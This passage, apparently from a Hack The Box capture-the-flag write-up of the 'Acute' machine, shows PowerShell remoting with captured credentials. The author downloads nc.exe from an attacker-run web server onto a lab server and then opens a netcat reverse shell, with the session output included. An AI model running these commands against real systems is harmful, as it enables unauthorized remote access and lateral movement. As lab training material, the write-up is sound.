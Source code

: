 ```shell
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

Therefore, the JEA is gone and we can use any PowerShell commands we want, like `Invoke-WebRequest`.

**Let's transfer netcat executable to the Domain Controller, and get a reverse shell:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:16:56(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe      
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:16:59(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Transfer netcat to `ATSSERVER`:

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { Invoke-WebRequest -Uri http://10.10.14.19/nc.exe -OutFile C:\Windows\Temp\nc.exe }
```

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:18:00(HKT)]
└> rlwrap -cAr nc -lvnp 4445
listening on [any] 4445 ...
```

- Send the netcat reverse shell payload:

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { C:\Windows\Temp\nc.exe -nv 10.10.14.19 4445 -e powershell.exe }
```

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:18:00(HKT)]
└> rlwrap -cAr nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 51496
[...]
PS C:\Users\awallace\Documents> whoami; ipconfig /all
acute\awallace

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ATSSERVER
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter vEthernet (VSwitch1):

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Hyper-V Virtual Ethernet Adapter
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-00
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```